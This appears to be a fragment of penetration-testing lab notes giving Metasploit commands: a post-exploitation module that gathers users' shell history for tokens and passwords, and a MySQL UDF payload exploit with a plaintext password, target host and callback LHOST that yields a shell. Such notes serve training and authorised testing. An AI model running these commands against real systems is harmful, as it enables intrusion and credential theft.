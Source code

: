 #### Post Exploitation Metasploit Modules
> Enumerate users history . Sometime there may be tokens, password for various services in the history file.
```
background
use post/linux/gather/enum_users_history
set SESSION 1
run

``

#### Mysql to shell

```
exploit/multi/mysql/mysql_udf_payload
set FORCE_UDF_UPLOAD true
set PASSWORD fArFLP29UySm4bZj
set RHOSTS server2.ine.local
set TARGET 1
set LHOST 192.73.96.2
exploit
session -i 2

```
